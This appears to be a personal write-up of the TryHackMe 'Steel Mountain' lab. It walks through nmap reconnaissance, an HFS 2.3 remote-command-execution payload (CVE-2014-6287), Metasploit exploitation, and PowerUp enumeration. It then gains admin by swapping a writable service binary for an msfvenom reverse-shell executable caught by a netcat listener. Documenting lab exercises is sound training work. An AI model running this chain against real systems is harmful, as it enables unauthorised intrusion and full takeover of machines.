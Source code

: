 ```yaml
---
layout: md
title: TryHackMe Steelmountain room
description: 
tags: ['security', 'tryhackme']
categories: ['linux', 'security', 'thm']
---
```


{% include project-headers.html %}

Attacking a Windows based machine.

Includes:
- Recon
  - nmap
  - web apps
  - searchsploit
- Exploit
  - metasploit
- Privilege esculation
  - Enumeration
  - Misconfiguration & exploiting services
  - msfvenom

#### Nmap

Use nmap to scan windows machine. `-Pn` is specified because windows was ignoring icmp requests.

```bash
$> sudo nmap -sS -sV -Pn -vv 10.10.30.80 -oA nmap-results.txt
...

PORT      STATE SERVICE            REASON          VERSION
80/tcp    open  http               syn-ack ttl 127 Microsoft IIS httpd 8.5
135/tcp   open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack ttl 127 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack ttl 127
8080/tcp  open  http               syn-ack ttl 127 HttpFileServer httpd 2.3
49152/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack ttl 127 Microsoft Windows RPC
```

#### Search for exploits

Find exploits related to the service running on port 8080, Rejetto Http File Server 2.3.

```bash
$> searchsploit "httpfileserver"
...

Rejetto HttpFileServer 2.3.x - Remote Command Execution (3) | windows/webapps/49125.py

$> searchsploit -p windows/webapps/49125.py
[CVE2014-6287](https://www.exploit-db.com/exploits/39161)
```

We can mirror the script shown in searchsploit and take a look at what it does. It just forms a url with a specific search query parameter that allows for remote code execution and makes a request to the service to perform that action.

```bash
$> searchsploit -m windows/webapps/49125.py
$> mv 49125.py command_exec.py

$> python3 command_exec.py 10.10.30.80 8080 whoami
http://10.10.30.80:8080/?search=%00{.+exec|whoami.}
```

The room tells us to use metasploit to perform the exploit though, maybe I will revisit scripting the exploit myself at a later date.

#### Metasploit

Using metasploit to exploit [`CVE2014-6287`](https://www.exploit-db.com/exploits/39161).

```bash
$> sudo msfconsole
msfconsole> search cve:2014-6287
...
0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

msfconsole> use 0 
msfconsole> show options
...

msfconsole> set RHOSTS <ip>
msfconsole> set RPORT 8080
msfconsole> exploit

meterpreter> 
```
This gives us a meterpreter shell as bill now.

#### Enumeration

Performing enumeration to find possible privilege esculation attack vectors using [`PowerUp`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```bash
$> wget -c https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
meterpreter> upload /opt/PowerUp.ps1

meterpreter> load powershell
meterpreter> powershell_shell
```

```powershell
PS >. .\PowerUp.ps1
PS > Invoke-AllChecks
...

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

This shows us a service called `AdvancedSystemCareService9` the our user can restart and also has write access to the directory, so we can override the existing executable with our own.

#### `msfvenom` Reverse shell

Creating the reverse shell exe
```bash
$> msfvenom -p windows/shell_reverse_tcp LHOST=10.9.7.128 LPORT=4444 -e x86/shikata_ga_nai -f exe -o msfvenom_reverse_shell.exe
```

Create a listener
```bash
$> nc -lvnp 4444
```

Upload and execute as a service
```bash
meterpreter> upload /opt/msfvenom_reverse_shell.exe
meterpreter> powershell_shell

PS> net stop AdvancedSystemCareService9
PS> cp .\msfvenom_reverse_shell.exe 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe'

PS> net start AdvancedSystemCareService9
```

And we have an admin shell via our netcat listener